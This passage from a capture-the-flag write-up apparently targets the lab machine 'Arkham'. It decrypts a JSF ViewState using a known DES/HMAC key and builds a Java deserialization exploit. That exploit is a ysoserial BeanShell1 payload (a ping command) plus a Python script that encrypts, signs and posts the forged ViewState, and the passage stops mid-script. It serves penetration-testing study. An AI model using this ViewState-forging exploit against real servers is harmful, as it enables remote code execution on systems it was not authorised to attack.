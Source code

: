 So we can see that the first 20 bytes didnt match the hash, lets try the last 20 bytes:

```python
>>> digest = raw[-20:]   # Set last 20 bytes as the digest
>>> msg = raw[:-20]      # Set the remaining bytes as the encrypted message
>>> hmac.new(b'JsF9876-', msg, 'sha1').digest()
b'\xc9\xe1\x05Y\xe7\x0b\x8af5]\x8d\xd0\xfa#\x8d\xf6\xe4\x18\x1dF'
>>> digest 
b'\xc9\xe1\x05Y\xe7\x0b\x8af5]\x8d\xd0\xfa#\x8d\xf6\xe4\x18\x1dF'   # same
```

Now we can see they match, so we've confirmd that the last 20 bytes of the message is the hash digest. Now we can decrypt the rest of the message.
For this i will use the [Cryptodome](https://pypi.org/project/pycryptodome/) module in Python (you can also use `Crypto`, for me it causes issues).

```python
>>> from Cryptodome.Cipher import DES
>>> d = DES.new(b'JsF9876-', DES.MODE_ECB)
>>> d.decrypt(msg)
b'\xac\xed\x00\x05ur\x00\x13[Ljava.lang.Object;\x90\xceX\x9f\x10s)l\x02\x00\x00xp\x00\x00\x00\x03t\x00\x01cpt\x00\x12/userSubscribe.jsp\x02\x02'
```

And there it is, we can see that our process was successful, as we can see the `java.lang.Object` sting in the output. Also, accourding to [this post](https://maxchadwick.xyz/blog/java-serialized-object-detection), serialized java object contain a header called `STREAM_MAGIC` which should be equal to `aced` in hex, which matchs our result. 

Now we can move on to the final stage were we contruct our payload, here is the overview:

+ generate a serilzed java object using `ysoserial`, and save it to a file: 

```bash
java -jar ysoserial-all.jar BeanShell1 'ping 10.10.14.61' > payload.bin
```

+ Open `payload.bin` from our Python script, and pad it with 8 bytes so we can encrypt the contents nicely with DES.

+ Compute the `SHA1` digest and add that to the end of the message.
+ Base64 encode it the object. 
+ Send it with `requests` which will also url encode it.

Here is the script:

```python
#!/usr/bin/python3

import base64
import hmac
import requests
from Cryptodome.Cipher import DES

with open('payload.bin', 'rb') as file:
    payload = file.read()

pad = (8 - (len(payload) % 8)) % 8
padded = payload + (chr(pad)*pad).encode()

d = DES.new(b'JsF9876-', DES.MODE_ECB)
encrypted_payload = d.encrypt(padded)
digest = hmac.new(b'JsF9876-', encrypted_payload, 'sha1').digest()

viewstate = base64.b64encode(encrypted_payload + digest)

sess = requests.session()
sess.get('http://arkham.htb:8080/userSubscribe.faces')
response = sess.post('http://arkham.htb:8080/userSubscribe.faces',
            data = {'j_id_jsp_1623871077_1%3Aemail': 'd',
```